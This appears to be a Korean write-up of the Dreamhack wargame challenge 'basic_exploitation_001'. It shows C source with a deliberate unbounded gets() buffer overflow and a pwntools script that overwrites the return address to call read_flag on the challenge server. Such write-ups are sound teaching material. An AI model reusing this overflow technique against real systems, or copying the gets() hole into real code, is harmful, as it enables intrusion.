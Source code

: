 ## 📍basic_exploitation_001

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.  
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.  
플래그의 형식은 DH{...} 입니다.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```


### 소스코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {
    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

![](Attachments/{8C48088D-2EA8-4291-9662-01C8E1925881}.png)

![](Attachments/{6B5CA851-367C-469D-A02D-8A4961104865}.png)

`read_flag` 함수의 시작 주소: `0x080485b9`

`gets` 함수에서 입력의 크기를 제한하고 있지 않기 때문에 버퍼 오버플로우 공격이 가능하다.
128바이트의 버퍼와 4바이트의 EBP(Extended Base Pointer)를 더미 데이터로 채우고, 그 이후 호출된 위치로 돌아갈 때 RET로 `read_flag` 함수의 시작 주소를 주면 `read_flag` 함수를 실행할 수 있다.


`$ python3 be1.py`

```python
from pwn import *

conn = remote('host3.dreamhack.games', 11943)

payload = b'A' * 0x84
payload += p32(0x080485b9)

conn.sendline(payload)

conn.interactive()
```

![](Attachments/{6C625355-E5B7-438B-A7AB-7D20F3DB1A8E}.png)

🚩